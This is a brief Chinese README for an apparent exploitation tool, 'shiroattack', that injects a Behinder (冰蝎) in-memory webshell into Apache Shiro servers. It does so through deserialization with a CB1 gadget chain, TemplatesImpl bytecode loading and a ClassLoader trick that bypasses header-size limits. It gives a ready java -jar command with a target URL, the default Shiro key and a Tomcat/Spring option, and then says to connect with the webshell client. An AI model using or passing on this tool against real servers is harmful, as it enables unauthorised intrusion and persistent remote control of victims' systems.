 



# 

就是看了别人的文章，调试了一下漏洞，加了一个发包，变成了利用工具



- P牛给shiro无CC依赖的CB1链来进行注入内存马

- `TemplatesImpl`来动态加载字节码触发其逻辑，从而注入恶意filter

- 利用自定义ClassLoader的方式绕过maxHttpHeaderSize

  

## 使用方法

```
java -jar xxx.jar url key type(spring/tomcat)
```

```
java -jar shiroattack-1.0-SNAPSHOT-jar-with-dependencies.jar http://localhost:8080/shirodemo_war/index.jsp kPH+bIxk5D2deZiIxcaaaA== tomcat
```

然后冰蝎直接连就行了



参考原文：

[利用shiro反序列化注入冰蝎内存马 - 先知社区 (aliyun.com)](
